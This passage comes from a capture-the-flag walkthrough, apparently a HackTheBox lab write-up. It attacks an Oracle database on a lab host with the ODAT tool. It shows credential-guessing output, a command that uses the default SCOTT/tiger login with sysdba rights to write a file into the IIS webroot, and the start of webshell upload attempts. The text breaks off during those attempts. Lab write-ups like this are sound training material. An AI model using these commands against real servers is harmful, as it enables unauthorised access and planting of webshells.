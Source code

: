     [-] KO

    [3] (10.10.10.82:1521): Oracle users have not the password identical to the username ?
    The login XS$NULL has already been tested at least once. What do you want to do:                               | ETA:  00:00:00
    - stop (s/S)
    - continue and ask every time (a/A)
    - continue without to ask (c/C)
    c
    100% |#########################################################################################################| Time: 00:00:42
    [-] No found a valid account on 10.10.10.82:1521/XE



In looking through what we can do, there's a great diagram on the [odat
GitHub page](https://github.com/quentinhardy/odat) that shows how each
plugin tested for above maps to capabilities on the box:

![](/img/ODAT_main_features_v2.0.jpg)

Based on the output, it seems that don't have the ability to run
commands (which ends up not being true, see section at the end), but we
can upload and download files.

## Webshell

There was a webserver listening on 80, with the default iis page. Since
we can upload, let's upload a webshell:

-   First, let's verift that we can write to the webroot (and that it is
    in the default location):

    <div>

    <div>

        root@kali# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.txt <(echo 0xdf was here)

        [1] (10.10.10.82:1521): Put the /dev/fd/63 local file in the C:\inetpub\wwwroot path (named 0xdf.txt) of the 10.10.10.82 server
        [+] The /dev/fd/63 local file was put in the remote C:\inetpub\wwwroot path (named 0xdf.txt)
        root@kali# curl http://10.10.10.82/0xdf.txt
        0xdf was here

    </div>

    </div>

-   Nice. What kind of shell uploads will work:

    -   php shell uploads, but then gets a 404 on request
    -   asp does the same
    -   aspx...

    <div>
